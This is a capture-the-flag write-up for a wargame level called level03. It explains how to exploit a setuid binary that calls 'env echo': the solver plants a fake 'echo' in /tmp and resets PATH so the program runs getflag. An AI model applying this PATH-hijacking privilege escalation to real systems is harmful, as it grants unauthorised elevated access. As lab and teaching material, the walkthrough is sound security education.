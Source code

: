 ## LEVEL 03

As usual, we search for files that we can use.  
-> `ls -la` or `la`  
We can see that we have one file named *level03*. It seems to be an executable and it has the permission *'s'* instead of *'x'*.

> The **'s'** permission makes that the file will always be executed with the owner that owns the executable.

Then, we try to launch *level03*.  
-> `./level03`  
It prints *"Exploit me"*. Let's see what's inside the executable.  
-> `cat level03`  
As we can see, it contains a lot of text with printable and unprintable characters.

> **strings** is a command that lists all the printable character in a file.

Next, we filter all the printable character in the file.  
-> `strings level03`  
We can notice the command line `/usr/bin/env echo Exploit me` that prints the string we previously saw.

> **/usr/bin/env** followed by a program name will search that program using the *$PATH* variable and execute it.

Thus, we can exploit the executable by creating a file named *echo* containing `getflag` and change *$PATH* to that file.  
-> `echo /bin/getflag > /tmp/echo`  
-> `chmod +x /tmp/echo`  
-> `export PATH=/tmp`  
-> `./level03`  
Finally, we get our flag.  
-> `su level04`